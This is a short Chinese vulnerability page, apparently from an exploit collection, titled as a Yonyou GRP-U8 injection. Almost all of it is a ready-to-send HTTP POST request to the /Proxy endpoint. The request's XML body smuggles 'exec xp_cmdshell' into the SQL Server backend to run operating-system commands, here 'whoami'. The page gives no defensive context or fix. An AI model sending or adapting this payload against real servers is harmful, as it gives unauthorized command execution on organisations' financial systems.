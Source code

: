 ### 用友 GRP-u8 注入

&emsp;&emsp;利用POC：

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?>
    <R9PACKET version="1">
        <DATAFORMAT>
            XML
        </DATAFORMAT> 
        <R9FUNCTION>
            <NAME>
                AS_DataRequest
            </NAME>
            <PARAMS>
                <PARAM>
                <NAME>
                    ProviderName
                </NAME>
                <DATA format="text">
                    DataSetProviderData
                </DATA>
            </PARAM>
            <PARAM>
            <NAME>
                Data
            </NAME>
            <DATA format="text">
                exec xp_cmdshell 'whoami'
            </DATA>
            </PARAM>
            </PARAMS>
        </R9FUNCTION>
    </R9PACKET>
```

![](/img/HW-Vuln/HW5.png)
